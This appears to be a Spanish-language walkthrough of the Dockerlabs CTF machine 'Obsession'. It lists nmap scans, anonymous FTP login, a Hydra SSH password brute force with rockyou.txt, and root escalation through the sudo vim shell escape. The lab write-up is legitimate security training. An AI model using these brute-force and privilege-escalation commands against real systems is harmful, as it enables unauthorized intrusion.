



# Obsession

## Port Enumeration

To begin our scan, we use the Nmap tool during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```
vamos a hacer un escaneo más dirigido a los servicios que tenemos
Para el servicio FTP utilizamos este tipo de escaneo que prueba algunos script tipicos:

```ruby
nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```


Vemos como esta permitido el usuario y contraseña anonymous por defecto y encontramos dos fichero interesante.
chat_gonza.txt y pendientes.txt.

Por lo tanto nos lo descargamos para poder ver el contenido de los dos ficheros con el siguiente comando una vez que estamos dentro del 
servicio ftp:


De la misma forma hacemois un escaneo mas particular para el servicio ssh 

```ruby
nmap -p22 -T4 --min-rate 1000 --script vuln,ssh-auth-methods,ssh-publickey-acceptance,sshv1 172.17.0.2
```


sin embargo , no conseguimos nada relevante.


vamos a ver que hay en la página web,si examinamos el código fuente 
nos aparece esto: 


Vamos a examinar los dos fichero que hemos descargado mediante el servicio ftp:

fichero pendientes.txt

```ruby
1 Comprar el Voucher de la certificación eJPTv2 cuanto antes!

2 Aumentar el precio de mis asesorías online en la Web!

3 Terminar mi laboratorio vulnerable para la plataforma Dockerlabs!

4 Cambiar algunas configuraciones de mi equipo, creo que tengo ciertos
  permisos habilitados que no son del todo seguros..
```

fichero chat_gonza.txt
```ruby
[16:21, 16/6/2024] Gonza: pero en serio es tan guapa esa tal Nágore como dices?
[16:28, 16/6/2024] Russoski: es una auténtica princesa pff, le he hecho hasta un vídeo y todo, lo tengo ya subido y tengo la URL guardada
[16:29, 16/6/2024] Russoski: en mi ordenador en una ruta segura, ahora cuando quedemos te lo muestro si quieres
[21:52, 16/6/2024] Gonza: buah la verdad tenías razón eh, es hermosa esa chica, del 9 no baja
[21:53, 16/6/2024] Gonza: por cierto buen entreno el de hoy en el gym, noto los brazos bastante hinchados, así sí
[22:36, 16/6/2024] Russoski: te lo dije, ya sabes que yo tengo buenos gustos para estas cosas xD, y sí buen training hoy
```
Podemos ver que hay tres usuarios potenciales "Gonza" , "Russoski" y "Nagore" por lo tanto vamos probar si algun de estos usuarios nos permite acceder al servicio ssh para ello voy autilizar la herramienta hydra y el diccionario "rockyou.txt".

```ruby
hydra -l gonza -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l russoski -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
hydra -l nagore -P rockyou.txt -t 16 -W 30 -f  ssh://172.17.0.2
```


Vemos como conseguimos la constraseña de russoski que es "iloveme",por lo tanto ya nos podemos conectar al servicio




## Escalada de privilegios

Ejecutamos el comando :
```ruby
sudo -l
```



Vemos que podemos ejecutar como root  el binario vim para ello vamos a GTobins y comprobamos si podemos eplotarlo:

```ruby
sudo vim -c ':!/bin/sh'
```

